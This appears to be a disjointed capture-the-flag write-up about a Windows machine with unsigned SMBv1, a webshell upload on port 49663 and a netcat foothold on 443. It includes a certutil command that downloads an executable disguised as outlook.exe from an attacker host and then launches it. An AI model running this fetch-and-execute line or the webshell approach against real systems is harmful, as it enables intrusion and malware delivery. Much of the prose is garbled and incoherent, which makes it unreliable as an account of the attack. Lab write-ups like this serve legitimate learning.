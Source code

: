 We have SMB read/write... v1 and is not signed...
![](isthisjusteternalblue.png)

After some considerations and various attempt. I have had too much time with this room to the point of frustration over multiple years returning. The network connective was absurd. This box is actually absurdly easy. The contextual I have changed this machine to WTFisTHIS, because after skipping to what next to do in the official video and him just browsing to the web page first time. Like the last 5 months meant nothing, same the as the year before... 

... 
## Exploit

WE can just upload a webshell to the http server running on port 49663.... 
![](loopdelooping.png)

![](hurray.png)

## Foothold

Sharing my shoes with someone again. This was doctored. I used a `nc` because low hanging fruit O'clock on 443. Must have been brown trousers new year's eve. Just because a manager would probably confidentially laugh at me on this one. Amusing I do not need proof to share, but this still needs to be here. I also need to actually learn stuff so could you at least use your own call to you the `nc`i uploaded like its 2018. 

![1080](netstatyourmindintothewtf.png)

40[.]127[.]240[.]158 and 40[.]68[.]123[.]157 - For using my port go burn your stuff. And your fancy update.microsoft dns names, could you at least use another port I am barely capable at turning on the computer. Can you not just buy a subscription and pretend to be someone if you can afford to waste my time - I need my time. Also is this not crazy sloppy and cant you just rent a servers in some random country? I probably wont even make the same money spent to bother me in my lifetime that you wasted on being this bad that I found you. Worst of all it is gonna take I now need to go baseline loads of of Windows Server to check how many of them have this insanely open network configuration. And I can barely get on this server. Have you not better things to do? You can respond character by character at a time with pictures really prove those hours argue value of clocking in those hours.  

![](admininthebin.png)

```
certutil.exe -urlcache -split -f http://10.11.3.193/outlook.exe C:\programdata\outlook.exe


start "Tutil-msSRV - Important Test" /d C:\programdata\outlook.exe  /b /high /wait 

```

While everything dies I at least managed to write the word hello to `c:\programdata\test.txt`
![](waitingsotestahello.png)

Having to check every shoelace, PowerShell does work this time.... 
![](powershelldoeswork.png)
